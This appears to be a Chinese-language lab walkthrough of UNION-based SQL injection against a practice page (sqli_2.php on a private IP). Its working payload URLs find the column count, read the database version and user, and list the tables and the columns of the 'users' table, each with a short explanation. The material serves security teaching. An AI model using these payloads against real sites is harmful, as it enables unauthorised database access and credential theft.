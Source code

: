   ![sql](../images/20210312/sqli.png)
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,2,3,4,5,6,7
  ```
  >Tips：http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2返回空，最后返回union select 1,2,3,4,5,6,7一条记录,页面显示的数字对应数据库所在字段的position

  ##### 查看目标基本信息
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,group_concat(database(),0x20,user(),0x20,@@version,0x20,@@basedir,0x20,@@datadir,0x20,current_user),3,4,5,6,7
  ```
  >Tips：0x20作为单字节表示，可以用于字符型变量的赋值，用于char时，其代表ascii码值0x20，即字符空格’ ‘，这里用于区分database()等字段回显信息。

  ##### 获取当前数据库所有表
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,group_concat(TABLE_NAME),3,4,5,6,7 from information_schema.tables where table_schema=database()
  ```
  >Tips：MySQL所有数据库表都会存储于information_schema库中的tables表中。table_schema为数据库名称，TABLE_NAME为对应数据库表名称。基于Web的数据库管理应用

  ``` bash
  -- 查看数据库所有表 
  select TABLE_NAME from information_schema.tables
  ```
  ##### 获取对应表的所有列
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema=database() and table_name="users"
  ```
  > Tips：MySQL所有数据库列都会存储于information_schemacolumnstable_schema为数据库名称，table_name为对应数据库表名称。
  ``` bash
  -- 查看数据库所有列
  select column_name from information_schema.columns
  ```
